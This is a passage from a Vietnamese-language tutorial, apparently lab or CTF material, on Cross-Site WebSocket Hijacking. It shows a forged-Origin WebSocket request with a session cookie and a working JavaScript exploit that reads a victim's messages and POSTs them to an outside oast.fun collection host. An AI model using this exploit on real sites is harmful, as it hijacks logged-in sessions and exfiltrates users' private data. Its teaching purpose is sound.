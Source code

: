 Để kiểm tra lỗ hổng CSWH, ta có thể khởi động ứng dụng web cục bộ và thực hiện yêu cầu WebSocket có **Origin header** giả mạo. Nếu ứng dụng chấp nhận kết nối mà không xác minh tính hợp lệ của Origin, tức là ứng dụng đã bị tấn công CSWH.

Ví dụ, ta gửi một yêu cầu WebSocket như sau:

```http
GET /messages HTTP/1.1
Host: 172.17.0.2:80
Connection: Upgrade
Upgrade: websocket
Origin: http://crossdomain.htb
Sec-WebSocket-Version: 13
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXIiOiJodGItc3RkbnQifQ.ZEQwlQ.ZoJ2yDD1Ujx5wzp54vXWN97j1LM
Sec-WebSocket-Key: 7QpTshdCiQfiv3tH7myJ1g==
```

Nếu kết nối được thiết lập thành công và có thể gửi và nhận dữ liệu từ WebSocket, ứng dụng web đang bị tấn công **CSWH**.

### **Khai Thác CSWH**

Để khai thác lỗ hổng CSWH, kẻ tấn công sẽ tạo một trang web chứa mã độc mà khi nạn nhân đăng nhập vào ứng dụng và truy cập trang web này, mã độc sẽ gửi yêu cầu WebSocket giả mạo với Origin giả mạo. Sau đó, trình duyệt của nạn nhân sẽ gửi cookie phiên của người dùng cùng với yêu cầu, tạo ra một kết nối WebSocket hợp lệ dưới danh nghĩa người dùng đã đăng nhập. Vì WebSocket không bị hạn chế bởi chính sách Same-Origin, kẻ tấn công sẽ có toàn quyền truy cập vào kết nối WebSocket của nạn nhân.

### **Ví Dụ Mã Exploit**

Dưới đây là ví dụ mã khai thác CSWH:

```html
<script>
  function send_message(event) {
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://172.17.0.2:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>
```

Khi kẻ tấn công thực thi mã này trên trang web mà nạn nhân truy cập, một kết nối WebSocket sẽ được tạo ra với ứng dụng bị tấn công, và tin nhắn sẽ được gửi đến server. Dữ liệu phản hồi sẽ được lấy và gửi đi thông qua **interact.sh** hoặc một dịch vụ tương tự để thu thập dữ liệu.

### **Điều Kiện Tấn Công Thành Công**

Để tấn công CSWH thành công, các cookie phiên phải được thiết lập với thuộc tính **SameSite=None**. Nếu không, cookie sẽ không được gửi trong các yêu cầu cross-origin, và cuộc tấn công sẽ không thành công. Điều này đòi hỏi ứng dụng web phải có cấu hình không an toàn, nơi **SameSite cookie attribute** không được thiết lập đúng.

---